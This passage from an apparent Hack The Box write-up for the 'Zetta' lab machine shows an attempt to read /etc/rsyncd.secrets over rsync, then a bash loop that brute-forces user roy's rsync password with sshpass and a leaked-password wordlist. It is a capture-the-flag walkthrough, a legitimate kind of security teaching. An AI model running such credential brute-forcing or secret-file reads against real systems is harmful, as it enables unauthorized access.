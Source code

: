 Unfortunately I can't get access to the secrets file `/etc/rsyncd.secrets`:

```
root@kali:~/htb/zetta/tmp# rsync rsync://zetta.htb:8730/etc/rsyncd.secrets .
[]...]
rsync: send_files failed to open "/rsyncd.secrets" (in etc): Permission denied (13)
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]
```

I'll try to bruteforce the password by using a simple bash loop. I use the `sshpass` program to pass the password to the interactive logon:

```sh
#!/bin/bash

for p in $(cat /opt/SecLists/Passwords/Leaked-Databases/rockyou-10.txt)
do
    sshpass -p $p rsync -q rsync://roy@zetta.htb:8730/home_roy
    if [[ $? -eq 0 ]]
    then
        echo "Found password: $p"
        exit
    fi
done
```

After a few seconds I'm able to recover the password: `computer`

![](/assets/images/htb-writeup-zetta/brute.png)

### Getting a shell

The password works and I can access roy's home directory:

![](/assets/images/htb-writeup-zetta/shell1.png)
